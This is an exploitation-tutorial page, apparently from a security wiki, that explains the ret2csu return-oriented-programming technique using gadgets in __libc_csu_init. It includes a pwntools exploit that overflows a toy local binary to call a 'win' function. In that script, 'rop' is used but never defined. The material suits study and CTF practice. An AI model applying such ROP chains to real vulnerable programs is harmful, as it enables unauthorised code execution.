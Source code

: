 # Ret2csu

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

**ret2csu** is a hacking technique used when you're trying to take control of a program but can't find the **gadgets** you usually use to manipulate the program's behavior.&#x20;

When a program uses certain libraries (like libc), it has some built-in functions for managing how different pieces of the program talk to each other. Among these functions are some hidden gems that can act as our missing gadgets, especially one called `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

In `__libc_csu_init`, there are two sequences of instructions (our "magic gadgets") that stand out:

1. The first sequence lets us set up values in several registers (rbx, rbp, r12, r13, r14, r15). These are like slots where we can store numbers or addresses we want to use later.

```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```

This gadget allows us to control these registers by popping values off the stack into them.

2. The second sequence uses the values we set up to do a couple of things:
   * **Move specific values into other registers**, making them ready for us to use as parameters in functions.
   * **Perform a call to a location** determined by adding together the values in r15 and rbx, then multiplying rbx by 8.

```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```

## Example

Imagine you want to make a syscall or call a function like `write()` but need specific values in the `rdx` and `rsi` registers as parameters. Normally, you'd look for gadgets that set these registers directly, but you can't find any.

Here's where **ret2csu** comes into play:

1. **Set Up the Registers**: Use the first magic gadget to pop values off the stack and into rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), and r15.
2. **Use the Second Gadget**: With those registers set, you use the second gadget. This lets you move your chosen values into `rdx` and `rsi` (from r14 and r13, respectively), readying parameters for a function call. Moreover, by controlling `r15` and `rbx`, you can make the program call a function located at the address you calculate and place into `[r15 + rbx*8]`.

You have an [**example using this technique and explaining it here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), and this is the final exploit it used:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

{% hint style="warning" %}
Note that the previous exploit isn't meant to do a **`RCE`**, it's meant to just call a function called `win` (taking the address of `win` from stdin calling gets in the ROP chain and storing it in r15) with a third argument with the value `0xdeadbeefcafed00d`.
{% endhint %}

### Why Not Just Use libc Directly?

Usually these cases are also vulnerable to [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), but sometimes you need to control more parameters than are easily controlled with the gadgets you find directly in libc. For example, the `write()` function requires three parameters, and **finding gadgets to set all these directly might not be possible**.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
